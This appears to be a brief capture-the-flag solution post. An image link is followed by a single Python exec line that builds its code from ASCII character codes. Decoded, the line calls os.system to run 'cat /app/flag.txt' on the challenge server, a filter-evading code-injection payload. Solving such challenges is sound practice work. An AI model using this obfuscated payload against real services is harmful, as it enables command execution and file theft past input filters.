 My solution:

Using the ASCII conversion:
```
exec(''.join([chr(int(i)) for i in '95 95 105 109 112 111 114 116 95 95 40 39 111 115 39 41 46 115 121 115 116 101 109 40 39 99 97 116 32 47 97 112 112 47 102 108 97 103 46 116 120 116 39 41'.split()]))
```
